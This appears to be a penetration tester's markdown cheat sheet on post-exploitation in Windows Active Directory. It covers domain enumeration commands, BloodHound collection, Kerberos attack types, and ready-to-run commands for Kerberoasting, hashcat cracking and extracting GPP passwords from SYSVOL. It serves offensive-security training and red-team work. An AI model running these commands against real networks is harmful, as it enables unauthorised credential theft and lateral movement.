 # Basics on what to do upon getting shell/rce


**Note:** Try as much as possible to [Live off the land](https://lolbas-project.github.io/)
___

## Just basic stuff

```batch
whoami /all
hostname
ipconfig /all
systeminfo
gpresult /R 
dir
tree /f /a
tasklist /V
net user
net user /domain
net user <username>
net user <username> /domain
net localgroup
net localgroup administrators
net groups /domain
net group "<group>" /domain
net group "domain admins" /domain
klist
```
___
## NLTest
   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)
       
```batch
nltest /dclist:<domain>
nltest /dsgetdc:<domain>
nltest /domain_trusts /all_trusts
```
___
## Powershell Enumeration
   * Source: [ired.team](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

```powershell        
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
[System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()
([System.DirectoryServices.ActiveDirectory.Forest]::GetForest((New-Object System.DirectoryServices.ActiveDirectory.DirectoryContext('Forest', '<domain>')))).GetAllTrustRelationships()
```
___ 

## [Dumping credentials](../../#dumping-credentials)
___
## Bloodhound (Sharphound) 

* Source: [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)

1. On local machine  (~Kali)


```batch
git clone https://github.com/fox-it/BloodHound.py.git #Bloodhound.py does not have all the features compared to the original Sharphound ingestors
cd BloodHound.py/ && pip install .
bloodhound-python -d <domain> -u <username> -p <password> -gc <domain_controller> -c all

sudo apt install neo4j bloodhound
# Access neo4j and change the neo4j/neo4j default credentials.
# While neo4j is still running, run bloodhound
bloodhound
```

1. Sharphound Officialy supported ingestors
   * Running the official/supported Sharphound ingestors collects more information
       * although Bloodhound.py is good for most cases
   * Source: 
       * [Github](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors)
       * [ReadTheDocs](https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound.html)
```powershell
# If logged in on a local user account but have domain user credentials, then on the command-line
C:\> runas /netonly /user:<DOMAIN>\<username> powershell.exe

# then on the spawned powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV -NoSaveCache
```

___
## General Attack methods
* Sources:
    * [Red Siege](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
    * [Orange Cyberdefense](https://raw.githubusercontent.com/Orange-Cyberdefense/arsenal/master/mindmap/pentest_ad.png)
* Methods
     * Golden Ticket
         * Requires full domain compromise.
         * Used for persistenceand pivoting
     * Kerberoasting
         * Requires access as any user. 
         * Use to escalateand pivot
     * Silver Ticket
         * Requires service hash.
         * Use for persistenceand escalation
     * Pass-the-Ticket
         * Requires access as user.
         * Use to pivot
     * Over-Pass-the-Hash
         * Requires access as user.
         * Use to pivot
___

## Kerberoasting
* Source: 
    * [hausec](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
    * [Tarlogic Security](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
1. From Linux
    * Beware of time difference of the attacking machine (Kali) and the targeted Domain Controller
    ```bash
    GetUserSPNs.py -debug -request -outputfile TGS_file.txt -dc-ip <DC_IP_Address> <FQDN>/<username>
    ```

1. From Windows
    * Refer to [m0chan's blog](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
    ```batch
    hashcat64.exe -a 3 -m 13100 SPN.hash /wordlists/rockyou.txt
    ```

___

## Gathering Windows GPP passwords 

Source: [Pure Security](https://pure.security/dumping-windows-credentials/)

1. On target machine logged-on with a regular domain account
    ```batch
    findstr /S cpassword \\<domain_controller>\sysvol\*.xml
    ```
1. On local machine (~Kali)
    ```bash
    gpp-decrypt <cpassword_value>
    ```

___

## ADFind
* Source:
    * [redcanary](https://redcanary.com/threat-detection-report/techniques/domain-trust-discovery/)
    
```batch
adfind.exe -f objectclass=trusteddomain
adfind.exe -sc trustdmp
```
    
